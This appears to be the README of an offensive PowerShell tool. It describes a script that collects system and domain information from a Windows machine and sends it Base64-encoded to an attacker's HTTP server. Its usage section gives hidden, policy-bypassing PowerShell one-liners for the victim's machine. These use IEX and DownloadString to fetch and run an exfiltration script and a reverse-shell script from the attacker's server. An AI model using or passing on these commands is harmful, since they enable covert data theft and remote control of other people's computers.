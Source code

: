 ## PowerShellXFiltration
A PowerShell script to exfiltrate information of a Windows system via HTTP server

### How it works
1. Runs several PS commands to retrieve information about the local system and the domain if any.
2. Sends the outputs to the webserver as GET parameter (and Base64 encoded)
3. The server logs any action in the current folder (`logs.txt`)
4. Create a directory with the system hostname and put all the exfiltrated info into

### Example
1. Change the listening IP/Port in `server.py` (default is `0.0.0.0:8000`).
2. Change the IP/port of your Python server in `client_exf.ps1`.
3. Run:
```
ATTACKER> python3 server.py
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_rvs.ps1');"
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_exf.ps1');"
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/run_all');"
```

